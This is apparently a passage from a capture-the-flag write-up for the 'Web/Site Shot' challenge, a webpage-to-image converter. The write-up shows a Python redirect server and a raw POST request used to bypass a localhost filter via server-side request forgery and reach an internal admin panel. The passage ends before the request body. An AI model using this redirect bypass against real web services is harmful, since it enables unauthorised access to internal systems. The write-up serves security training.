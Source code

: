 **Flag:** `VULNCON{Gu355_u_d0nt_n33d_th3_5y5c4ll_aft3r4ll}`


## Web/Site Shot

```
Web/Site Shot
r3curs1v3_pr0xy
10 solves / 477 points
Recently Elliot got a job as a web developer. He got a project to create a website that converts webpage into image but he don’t know about the web app security and somehow hackers got access to admin panel content running at localhost. As a pentester, we need to find the flaw in the app to see what's running at admin panel.

Link: http://143.244.132.186:3000/
```

### Solution

This challenge involved a website that allowed users to specify a URL to render as a PDF. This
essential acts as a way to perform SSRF. However, any address such as `127.0.0.1` or other encoded
forms are rejected.

To get around this, we simply use redirect headers on our own server. I simply reused this [code snippet](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#bypass-via-redirect):

```python
#!/usr/bin/env python3

#python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

This was invoked with `python redirector.py 80 http://127.0.0.1`.

The following request was sent to the challenge server to trigger the redirect to localhost.

```
POST /convert HTTP/1.1
Host: 143.244.132.186:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://143.244.132.186:3000
Connection: close
Referer: http://143.244.132.186:3000/
Upgrade-Insecure-Requests: 1

```